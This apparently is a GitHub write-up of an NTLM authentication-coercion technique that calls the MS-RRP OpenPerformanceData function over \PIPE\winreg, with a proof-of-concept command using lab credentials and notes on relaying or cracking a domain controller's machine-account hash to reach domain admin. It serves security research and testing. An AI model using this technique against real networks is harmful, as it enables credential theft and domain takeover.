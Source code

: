 # MS-RRP - Remote call to OpenPerformanceData (opnum 3)

## Summary

 - **Protocol**: [[MS-RRP]: Windows Remote Registry Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78)

 - **Protocol UUID**: 338cd001-2244-31f1-aaaa-900038001003

 - **Protocol version**: 1.0

 - **SMB Named pipe**: `\PIPE\winreg`

 - **Function name**: [`OpenPerformanceData`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/7b514c63-6cad-4fe1-9780-743959e377e6)

 - **Function operation number**: `3`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\winreg` and bind to the desired [`MS-RRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78) protocol (with uuid `338cd001-2244-31f1-aaaa-900038001003` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-RRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\winreg` This pipe is connected to the protocol [[MS-RRP]: Windows Remote Registry Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78) and allows to call RPC functions of this protocol. We will then call the remote [`OpenPerformanceData`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/7b514c63-6cad-4fe1-9780-743959e377e6) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
OpenPerformanceData('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
error_status_t OpenPerformanceData(
   [in, unique] PREGISTRY_SERVER_NAME ServerName,
   [in] REGSAM samDesired,
   [out] PRPC_HKEY phKey
 );
```

## References

 - Documentation of protocol [MS-RRP]: Windows Remote Registry Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78

 - Documentation of function `OpenPerformanceData`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/7b514c63-6cad-4fe1-9780-743959e377e6